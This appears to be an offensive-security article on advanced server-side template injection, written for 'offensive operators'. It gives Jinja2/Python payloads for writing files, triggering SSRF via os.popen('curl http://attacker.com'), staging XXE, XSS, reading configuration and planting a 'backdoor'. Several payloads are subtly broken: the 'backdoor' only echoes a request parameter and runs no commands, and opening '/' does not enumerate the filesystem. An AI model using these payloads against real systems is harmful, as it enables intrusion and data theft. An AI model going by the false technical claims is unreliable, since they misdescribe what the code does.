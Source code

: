 ```yaml
---
title: Advanced Techniques in Server-Side Template Injection
description: Explore advanced SSTI techniques for exploitation, including file uploads,
  SSRF, XXE, XSS, and persistent backdoors.
keywords:
- SSTI
- server-side template injection
- advanced techniques
- SSRF
- XXE
- persistent backdoor
- template chaining
- polyglot payloads
- template-based XSS
---
```


# Advanced Techniques

## Context

This article delves into advanced server-side template injection (SSTI) techniques, enabling offensive operators to exploit applications more effectively. These techniques target post-exploitation actions, allowing for lateral movement and the execution of multi-vector attacks. Readers are expected to understand the fundamentals of template engines, the server-side execution context, HTTP request/response cycles, and basic SSTI exploitation.

## Theory

### Multi-Vector Exploitation via SSTI

Advanced SSTI techniques can be leveraged to trigger secondary vulnerabilities or facilitate chained attacks. By manipulating the template injection, attackers can perform server-side request forgery (SSRF), XML external entity attacks (XXE), file uploads, or even cross-site scripting (XSS) by crafting payloads that interact with and exploit other components of the application.

### Template Chaining and Polyglot Payloads

Template chaining involves combining payloads that target multiple template engines or use multiple payload techniques to bypass security filters or escalate the attack's impact. Polyglot payloads are particularly powerful as they are designed to be valid across different template syntaxes, significantly increasing the reliability and reach of the exploit.

### Persistent and Backdoor Template Injection

Persistent SSTI refers to the storage of malicious template payloads in the application data, which are then triggered on future renders. A template backdoor is a specific type of persistent injection where the code grants ongoing access or triggers based on specific conditions, maintaining persistent control over the compromised application.

### Sensitive Data and Configuration Exposure

SSTI can expose critical server information such as environment variables, configuration files, and allow filesystem enumeration through strategic template expressions. This vulnerability model can reveal sensitive data that might be leveraged for further attacks or information disclosure exploits.

## Practice

### File Upload via SSTI

To create a file on a server using Python-based template injection, the following payload can be used:

```python
{{ next(cls for cls in ''.__class__.__mro__[2].__subclasses__() if cls.__name__ == 'TextIOWrapper')('/tmp/ssti.txt','w').write('owned by ssti') }}
```

This payload leverages the server-side template engine's ability to execute arbitrary code, resulting in the creation of an arbitrary file on the server's filesystem.

### SSRF via Template Injection

By triggering an HTTP request from the server to an attacker-controlled endpoint, SSRF can be executed using:

```python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('curl http://attacker.com') }}
```

This payload sends an HTTP request to the specified URL, possibly permitting unwanted communication or data exfiltration through the server.

### XXE via Template Injection

For exploiting XXE, create a malicious XML file:

```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/payload.xml','w').write('<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>') }}
```

This approach writes a payload to the server for use in subsequent XXE attacks.

### Template-Based XSS

To execute client-side scripts via template rendering, inject JavaScript as follows:

```python
{{ '<script>alert(1)</script>' }}
```

This payload exploits template execution to trigger stored or reflected XSS, executing scripts in client browsers.

### Environment Variable Disclosure via SSTI

Access sensitive server and environment data with this payload:

```python
{{ config.items() }}
```

This expression accesses and enumerates application configuration and environment variables.

### Filesystem Enumeration via SSTI

Attempt to read directories or file contents using:

```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/','r').read() }}
```

This payload aims to access the server filesystem to gather sensitive information.

### Persistent Template Injection (Stored SSTI)

Persistent SSTI involves injecting payloads that are stored in persistent fields such as user profiles or comments, and these payloads execute during subsequent template renders, ensuring ongoing code execution and exploitation opportunities.

### Template Backdoor Implantation

For persistent access, utilize a backdoor payload:

```python
{{ request.args.get('cmd')|safe }}
```

This payload executes arbitrary commands passed as HTTP parameters, facilitating remote command execution.

### Polyglot Template Payloads

To exploit multiple template engines, use a polyglot payload:

```jinja
{{7*7}}{% if 7*7 == 49 %}{{7*7}}{% endif %}
```

This payload demonstrates compatibility with both Jinja2 and Twig engines, enhancing the exploit’s reach and success rate.

## Tools

- **None** (No specific tools are tied to these techniques; exploitation is context-dependent and requires manual payload crafting.) 

In leveraging these advanced SSTI techniques, operators can gain deeper access and control over compromised systems by exploiting lesser-known capabilities of server-side templates, thus enhancing attack vectors and persistence.
